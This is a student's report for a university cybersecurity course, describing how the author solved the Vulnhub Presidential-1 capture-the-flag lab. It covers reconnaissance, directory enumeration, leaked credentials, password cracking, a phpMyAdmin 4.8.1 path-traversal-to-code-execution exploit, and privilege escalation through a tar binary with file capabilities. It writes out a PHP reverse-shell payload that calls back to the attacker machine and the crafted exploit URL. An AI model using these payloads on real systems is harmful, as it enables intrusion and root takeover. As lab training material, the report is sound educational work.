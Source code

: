 # Report Presidential Hacking
Cybersecurity Course - University of Trieste - Academic year 2023/2024

Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. This phase involves using various techniques to actively or passively gather information that supports targeting. The information collected can include details about the victim's organization, infrastructure, and personnel. In this case, the objective is to identify the IP address of the target machine and the services running on it.

The shell command `netdiscover` automates the process of discovering live hosts on a network. It generates ARP requests for each IP address within a specified range. These requests are broadcasted to all devices on the local network, prompting devices with the corresponding IP addresses to respond with their MAC addresses. `netdiscover` collects these responses and records the IP and MAC address pairs, and it can also identify the device vendor. As a result, the output of `netdiscover` is a list of active hosts on the network.

From the vendor column in the obtained list, it is suggested that the potential target IP addresses could be 10.0.2.3 and 10.0.2.8. To determine which is the correct address, it is necessary to identify the active services on these addresses.
The `nmap` command is used to identify the services, open ports, and software versions on the machine at the indicated address. 

![Steps of recognition](images/recognition.png)  

The scan reveals that the machine with the IP address 10.0.2.8 is running a web service on port 80 using the HTTP protocol and a remote shell on port 2082 using the SSH protocol. This machine is the presidential VM.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the **`/etc/hosts`** file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

Four accessible files were detected during the enumeration phase:

1. **`/index.html`**: This is the main page of the web server, which has already been visited.
2. **`/about.html`**: This page contains placeholder text ("lorem ipsum") and does not provide any useful information.
3. **`/config.php.bak`**: This file appears to be a backup of the `config.php` file and likely contains important configuration information. As seen from the response to the `curl` command, it contains user credentials, which could be useful later.
4. **`/config.php`**: This file is an empty PHP file, offering no additional information.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (**`/dirbuster/wordlists/directory-list-2.3-medium.txt`**), a single subdomain was found: datasafe.votenow.local.

Navigating to the subdomain's web page reveals an access panel for "phpMyAdmin". By entering the previously obtained credentials, the login is successful. Once logged in, the interface allows direct interaction with a SQL database through the execution of queries. From this database, it is possible to retrieve the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella".

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows remote code execution. 

![Searchsploit response](images/searchsploit.png)

Detailed information on how to exploit the RCE vulnerability is provided in response to the following searchsploit command:
`searchsploit -x /php/webapps/50457.py`
The exact same exploit is presented [here](https://www.exploit-db.com/exploits/50457).

As a first approximation the exploit steps in sequence are:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query
4) accurately edit the URL and execute the payload.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by inspecting the browser's developer tools to find the value of the cookie named phpMyAdmin.

Once authenticated it is possible to execute SQL queries on the databases present, so the point 3 can be easily done. The query must contain a php script within backticks, but in this stage it would not been executed. Under normal circumstances, the web application does not interpret or execute code placed within backticks in the SQL queries. However, by meticulously crafting the URL, it becomes possible to execute the script. This script embedded in the SQL query is the payload.

The URL must be edited to the following format:

**`http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieValue}`**

replacing {cookieValue} with the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, the embedded script within the query is executed, establishing a reverse shell on the target machine.

The IP address **`10.0.2.4`** mentioned in the query is the Kali Linux machine's IP where the listener is active on port 443.

![Exploitation of the vulnerability](images/sql_vuln.png)

Following payload execution, a successful reverse shell is established. Authentication is accomplished using the previously obtained admin user credentials.
Now it is possible to read the flag of **`user.txt`** and the file **`read.txt`**.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, obtaining the final-flag can be done and it marks the end of the challenge.

![Root access](images/ssh_&_final_flag.png)

